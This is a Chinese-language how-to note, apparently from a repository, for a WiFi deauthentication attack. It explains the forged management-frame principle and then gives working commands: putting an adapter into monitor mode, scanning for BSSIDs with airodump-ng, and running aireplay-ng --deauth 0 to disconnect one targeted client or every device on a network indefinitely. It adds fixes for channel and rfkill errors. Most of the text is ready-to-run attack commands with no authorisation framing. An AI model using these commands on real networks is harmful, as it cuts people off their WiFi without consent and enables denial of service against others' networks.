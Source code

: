 # 解除WiFi认证(断开连接)攻击 Deauthentication
## Deauthentication
* ```
    Deauthentication（断开连接）是一种无线网络管理帧（Management Frame）的类型，
    用于通知客户端设备断开与 接入点 的连接。它是IEEE 802.11(数据包类型)标准中定义的一种帧类型。

## Deauthentication Attck 原理
* 发送伪造的 断开连接数据包 给client。
## 前提
* 需要带有监听功能的wifi适配器
* 确认你的无线网卡支持监控模式（monitor mode）和数据包注入（packet injection）。
* ```
    # 关闭wifi
    sudo ifconfig wlan0 down
    # 切换为监听模式
    sudo iw wlan0 set monitor none

    # iwconfig 查看是否为监听模式
    

## aireplay-ng工具
* aireplay-ng 是一款强大的网络攻击工具，用于`无线网络`的安全测试和攻击。
* ```
    # 扫描wifi网络得到BSSID,ESSID
    sudo rfkill unblock wifi
    sudo ifconfig wlan0 up  
    sudo iwlist wlan0 scan | grep -i 'cell\|bssid\|essid'

    # 注意 bssid是唯一标识符(可以是mac)，essid是wifi网络的名称
* ```
    # 扫描附近的无线网络(同上)
    sudo aireplay-ng -9 wlan0
    # 或者
    sudo airodump-ng wlan0
* ```
    # 发起断开连接攻击
    # --deauth 0表示发起无限个包
    # -c 可用逗号分隔开多个mac值，对多个设备进行断开wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> -c <目标客户端MAC地址> wlan0
* ```
    # 断开所有设备wifi
    sudo aireplay-ng --deauth 0 -a <目标BSSID> wlan0

## 报错
* ```
    # wrong info: wlx0092c38a9764 is on channel 1, but the AP uses channel 7
    # 在进行攻击时，需要保持在统一信道(连wifi也一样)

    # 查看wifi适配器当前处于的信道
    sudo iw wlan0 info

    # 设置信道
    sudo iwconfig wlan0 channel 7
    # or
    sudo iw wlan0 set channel 9

* ```
    # 报错 ioctl(SIOCSIFFLAGS) failed: Operation not possible due to RF-kill

    # 使用命令
    sudo rfkill unblock wifi

